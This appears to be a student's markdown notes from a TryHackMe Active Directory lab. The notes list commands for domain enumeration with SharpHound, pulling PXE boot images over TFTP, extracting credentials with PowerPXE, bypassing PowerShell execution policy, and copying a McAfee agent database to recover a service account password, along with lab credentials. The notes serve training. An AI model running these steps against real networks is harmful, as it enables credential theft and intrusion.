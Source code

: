 ### Bloodhound
- Install: `neo4j console` (Start DB), `bloodhound --no-sandbox`
  - Default DB creds: `neo4j:neo4j`, Newpass: `naqib`
- Enumeration: `SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com --ExcludeDCs`

## BAD

### DNS Config
- `Alt+f2 > nm-connection-editor > IP Setting`

### BCD Files
- `tftp -i <THMMDT IP> GET "\Tmp\x64{39...28}.bcd" conf.bcd`

### PowerPXE
- **Command**: `powershell -executionpolicy bypass`
- **Import**: `Import-Module .\PowerPXE.ps1`
- **Get WIM**: `$BCDFile = "conf.bcd"; Get-WimFile -bcdFile $BCDFile`

### WIM Files
- **Download**: `tftp -i 10.200.4.202 GET " \Boot\x64\Images\LiteTouchPE_x64.wim" pxeboot.wim`
- **Credentials**: `Get-FindCredentials -WimFile pxeboot.wim`

### Microsoft Tool for PXE Boot
- Microsoft Deployment Toolkit

### Config Enumeration
- Web application config files
- Service configuration files
- Registry keys
- Centrally deployed applications

### Automation Tools
- Seatbelt

### Pass File Extraction
- `Cd C:\ProgramData\McAfee\Agent\DB`
- `scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .`

### Credentials
- jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==
- User: svcAV
- Domain: za.tryhackme.com
- Path: epo$\
- DC: THMDC

## Support
